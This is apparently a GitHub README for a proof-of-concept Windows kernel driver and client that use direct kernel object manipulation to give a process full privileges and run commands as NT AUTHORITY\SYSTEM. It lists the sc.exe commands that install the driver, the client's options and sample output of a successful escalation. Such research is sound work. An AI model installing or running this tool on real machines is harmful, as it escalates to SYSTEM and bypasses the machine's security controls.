

# GetFullPrivs

PoCs to get full privileges with DKOM method.

## Installation

```
PS C:\> sc.exe create GetFullPrivs type= kernel binpath= C:\Dev\GetFullPrivsDrv_x64.sys
PS C:\> sc.exe start GetFullPrivs
```

## Client Program Usage

Client program performs `NT AUTHORITY\SYSTEM` process execution.

```
PS C:\Dev> .\GetFullPrivsClient.exe -h

GetFullPrivsClient - Client for GetFullPrivsDrv.

Usage: GetFullPrivsClient.exe [Options]

        -h, --help    : Displays this help message.
        -c, --command : Specifies command to execute. Default is "cmd.exe".
```

Command to execute can be specified with `-c` option.
If you do not specify any command, this PoC try to execute `cmd.exe` as a full privileged process:

```
PS C:\Dev> .\GetFullPrivsClient.exe

[>] Sending a query to \??\GetFullPrivs.
[+] Got a handle to \??\GetFullPrivs (Handle = 0x2D8)
[+] Got full privileges.
[>] Trying to create new process.
[+] New process is executed successfully.
    [*] Process ID : 8512
    [*] Thread ID  : 3200
[*] Done.
```

